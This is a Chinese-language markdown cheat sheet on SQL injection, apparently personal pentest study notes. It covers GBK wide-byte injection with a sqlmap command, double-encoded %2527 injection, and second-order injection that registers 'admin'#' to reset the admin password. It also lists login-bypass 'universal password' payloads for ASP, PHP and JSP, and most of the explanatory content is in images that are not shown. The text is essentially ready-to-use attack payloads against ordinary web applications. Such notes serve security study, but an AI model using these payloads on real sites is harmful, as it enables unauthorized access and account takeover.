 # 其他注入法(上)
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x01 宽字节注入
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;原理: GBK编码原因
![](/assets/1D9686C1BD68278B8BCC54E99EC2B241.png)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;方法: 注入点后添加 %df ('),注意引号位置
![](/assets/56A4F11A60114A0F775184E226B97253.png)
```
    sqlmap的应用:    sqlmap -u "URL%df"
```
![](/assets/WX20190308-163047@2x.png)
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x02 二次编码注入
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;原理: %25=%，%27='
![](/assets/819D6BE3ABC9332640A198A04C59DBE3.png)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;方法: 在注入参数后加上 %2527
![](/assets/2FB8757F83C36EA38BE10100CF6E5AFD.png)
![](/assets/F9F1EB8B18B34194EF8874D1070C3F1A.png)
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x03 二次注入
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;原理:
![](/assets/272D362F397C7D1EECE826BBA25CFC5A.png) 
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;方法: 
```
    适合在能提取数据的地方，例如利用注册信息成 admin'#，密码随意
    在利用找回密码，修改admin的密码
```
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x04 万能密码注入
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;原理:
![](/assets/QQ20190218-182024@2x.png)
![](/assets/87E9A1A4708DED342D6152C1BC75DB04.png)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;方法:
```sql
    asp/aspx万能密码: ”or “a”=”a 、‘)or(‘a’=’a 、’or 1=1–、‘OR 1=1%00  
    PHP万能密码:  'or'='or'、 'or 1=1/* 字符型 GPC是否开都可以使用、User: something/Pass: ' OR '1'='1
    JSP万能密码: 1'or'1'='1、admin' OR 1=1/*
    
    https://blog.csdn.net/qq_36512966/article/details/72674794
```
![](/assets/sqlzhuru.png)











    



